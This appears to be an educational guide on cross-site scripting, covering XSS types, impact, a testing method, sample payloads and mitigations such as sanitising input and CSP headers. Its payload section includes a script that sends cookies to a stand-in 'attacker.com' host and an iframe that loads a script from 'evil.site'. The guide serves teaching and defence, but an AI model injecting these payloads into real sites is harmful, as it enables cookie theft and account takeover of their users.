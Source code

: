 # 🎯 Cross-Site Scripting (XSS)  
*Web vulnerability where attackers inject malicious scripts into trusted websites*  

---

## 📖 Table of Contents  
- [📜 Definition](#-definition)  
- [🔀 Types of XSS](#-types-of-xss)  
- [💥 Impact](#-impact)  
- [🔍 Testing Methodology](#-testing-methodology)  
- [📌 Common Payloads](#-common-payloads)  
- [📚 Resources](#-resources)  
- [🛡️ Mitigation](#️-mitigation)  

---

## 📜 Definition  
XSS (Cross-Site Scripting) is an injection vulnerability where attackers execute malicious JavaScript in a victim's browser, often for:  
- Session hijacking 🕵️  
- Phishing attacks 🎣  
- Defacement 🏴  

---

## 🔀 Types of XSS  

| Type              | Description                                                                 | Risk Level |  
|--------------------|-----------------------------------------------------------------------------|------------|  
| **🔄 Stored XSS**   | Malicious script is **stored** on the server (e.g., comments/user profiles). Executes when victims view infected pages. | Critical   |  
| **🎯 Reflected XSS**| Script is **reflected** in immediate server responses (e.g., search results). Requires social engineering.             | High       |  
| **🌐 DOM-based XSS**| Client-side attack exploiting unsafe JavaScript DOM manipulation. No server interaction.                              | High       |  

---

## 💥 Impact  
- **Cookie/session theft** 🍪  
- **Account takeover** 👑  
- **Keylogging** ⌨️  
- **Content spoofing** 🎭  
- **Redirection to malicious sites** ➡️  

---

## 🔍 Testing Methodology  
1. **Identify Input Points**:  
   - Search bars 🔍  
   - Comment sections 💬  
   - User profiles (bio/username) 👤  
   - URL parameters (e.g., `?id=<payload>`) 🌐  

2. **Test for Reflection**:  
   - Inject a unique string (e.g., `cupcakes123`) and check:  
     ```html
     <!-- Check if it appears in: -->
     Page content | HTML source | Network responses (DevTools)
     ```  

3. **Escalate with Payloads**:  
   ```html
   <script>alert(1)</script>                 <!-- Classic test -->
   <img src=x onerror="alert(document.cookie)">  <!-- Cookie theft demo -->
   ```

---

## 📌 Common Payloads  
### Basic Tests  
```html
<script>alert(1)</script>
<img src=x onerror="alert(1)">
```  

### Advanced Attacks  
```html
<!-- Steal cookies -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>  

<!-- Redirect to phishing site -->
<iframe src="javascript:document.write('<script src=//evil.site/xss.js></script>')">
```  

📖 Here is a cool Cheat Sheet: [XSS Payload Masterlist](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)  

---

## 📚 Resources  
| Resource | Description | Link |  
|----------|-------------|------|  
| **Beyond XSS** | Advanced exploitation techniques | [aszx87410.github.io](https://aszx87410.github.io/beyond-xss/en/) |  
| **PortSwigger Labs** | Hands-on XSS practice | [portswigger.net](https://portswigger.net/web-security/cross-site-scripting) |  
| **OWASP XSS Guide** | Defense strategies | [owasp.org](https://owasp.org/www-community/attacks/xss/) |  

---

## 🛡️ Mitigation  
| Strategy | Example |  
|----------|---------|  
| **Sanitize Inputs** | Remove/escape HTML tags with libraries like `DOMPurify` |  
| **Use CSP Headers** | `Content-Security-Policy: default-src 'self'` |  
| **Avoid Unsafe Functions** | Use `textContent` instead of `innerHTML` |  

```javascript
// UNSAFE ❌
element.innerHTML = userInput;

// SAFE ✅
element.textContent = userInput;
```

---
